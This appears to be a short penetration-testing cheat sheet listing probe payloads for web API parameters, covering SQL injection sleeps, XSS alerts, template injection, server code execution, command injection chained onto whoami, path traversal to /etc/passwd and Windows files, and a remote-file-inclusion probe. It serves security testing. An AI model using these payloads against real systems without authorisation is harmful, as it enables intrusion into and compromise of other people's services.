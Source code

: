 # APIs and Fields

## Simulating Requests

### GET

```
// Some code
```

### POST - HTTP Params

```
// Some code
```

### POST - JSON



## Testing parameters

SQL Injection

```
''""``) or 'a' = 1;

sleep(5)#
or sleep(5)#
;waitfor delay '0:0:5'--
" or pg_sleep(5)--
```

XSS

```
<script>alert(document.domain)</script>
<img src=1 href=1 onerror="javascript:alert(document.domain)"></img>

`"'><img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
/><img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
```

Template Injection

```
4*4
{{4*4}}
${4*4}
{4*4}
<%= 4*4 %>
```

Code Execution - Server

```
os.system('<cmd>')
T(java.lang.Runtime).getRuntime().exec("<cmd>");

echo exec("<cmd>");
echo `<cmd>`;

<!--#exec cmd="<cmd>" --> 
```

Code Execution - Machine

```
whoami
$(whoami)
;whoami
||whoami
&&whoami
```

Local File Inclusion

```
../../../../../../../../../etc/passwd
..\..\..\..\..\..\..\..\..\Windows\system.ini
..\..\..\..\..\..\..\..\..\boot.ini
```

Remote File Inclusion

```
http://www.google.com
http://<controlled ip>
```

